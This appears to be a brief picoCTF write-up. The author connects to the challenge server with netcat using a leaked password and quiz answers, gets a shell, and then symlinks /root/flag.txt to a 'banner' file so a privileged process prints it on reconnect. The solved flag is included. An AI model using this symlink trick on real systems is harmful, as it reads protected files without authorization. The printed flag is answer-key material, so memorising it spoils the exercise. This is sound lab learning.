 ```yaml
---
created: 2024-08-08T01:21
updated: 2024-08-08T01:24
---
```


```bash
# First we get the password from the leak
nc tethys.picoctf.net 57925 # My_Passw@rd_@1234
nc tethys.picoctf.net 62276
> My_Passw@rd_@1234
> DEFCON
> John Draper
```

And we have our shell.

However we don't have permissions to read `/root/flag.txt`.
Had to use the hint.

Anyways, we can solve it with symlinks.

```bash
ln -s -T /root/flag.txt banner
```

Disconnect and connect again, and you will get the flag.

```flag
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_68ca8b23}
```
